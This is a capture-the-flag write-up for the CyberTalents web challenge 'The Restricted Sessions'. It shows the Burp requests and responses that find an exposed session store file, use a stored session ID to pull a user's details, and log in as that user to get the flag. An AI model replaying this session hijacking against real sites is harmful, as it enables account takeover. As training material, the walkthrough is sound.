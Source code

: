 # Solve The Restricted Sessions
### https://cybertalents.com/challenges/web/the-restricted-sessions


![alt text](images/image.png)

Review The Source code 

```
if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
```

#### Analyize request with burp
```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Inject PHPSESSID in cookie of the request

```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
cookie: PHPSESSID=test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

#### Responce 
```
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Mon, 18 Mar 2024 12:14:14 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 43

Session not found in data/session_store.txt
```
#### Navigate to `data/session_store.txt`
![alt text](images/image-1.png)

We found Sotred sessions IDs 
```
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```

#### Try Post request with Sotred sessions IDs  
```
POST /getcurrentuserinfo.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 36

PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23
```

#### Responce 
```
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Mon, 18 Mar 2024 12:29:08 GMT
Content-Type: application/json
Connection: close
Set-Cookie: PHPSESSID=68rn3qsd4ojvajq4a66dm8gj3s; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 44

{
    "email": "john@example.com",
    "name": "john",
    "session_id": "iuqwhe23eh23kej2hd2u3h2k23"
}
```
#### Login with session_id and name 

```
GET / HTTP/1.1
Host: wcamxwl32pue3e6mkm73p97aqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
cookie:PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23; UserInfo=john 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Flag is `sessionareawesomebutifitsecure` 

>Find More on ==> github.com/MedhatHassan 